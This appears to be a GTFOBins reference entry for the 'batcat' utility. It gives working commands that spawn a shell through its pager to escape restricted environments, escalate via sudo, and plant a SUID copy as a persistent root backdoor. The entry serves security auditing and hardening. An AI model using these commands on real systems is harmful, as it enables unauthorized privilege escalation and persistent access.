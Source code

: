 # GTFOBin: batcat

This invokes the default pager, which is likely to be `less`, other functions may apply. `--paging always` can be omitted provided that the output doesn’t fit the screen.

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
batcat --paging always /etc/profile
!/bin/sh
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo batcat --paging always /etc/profile
!/bin/sh
```

## Limited SUID

If the binary has the SUID bit set, it may be abused to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands (e.g., via `system()`-like invocations) it only works on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which batcat) .

./batcat --paging always /etc/profile
!/bin/sh
```